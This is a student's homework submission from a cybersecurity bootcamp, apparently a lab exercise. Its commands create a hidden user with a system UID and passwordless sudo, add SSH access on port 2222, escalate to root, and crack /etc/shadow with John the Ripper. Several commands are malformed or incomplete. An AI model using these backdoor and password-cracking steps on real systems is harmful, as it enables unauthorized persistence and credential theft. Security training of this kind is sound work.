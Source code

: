 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser –-no-create-home sysd'

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 500 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 500 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo `
   sysd All=(ALL) NOPASSWD:ALL 
   
6. Test that `sudo` access works without your password:

    ```
       sudo -l sysd
       sudo apt-get update
       sudo -h
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
        nano etc/ssh/sshd_config 
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart sshd.service `

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su `

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

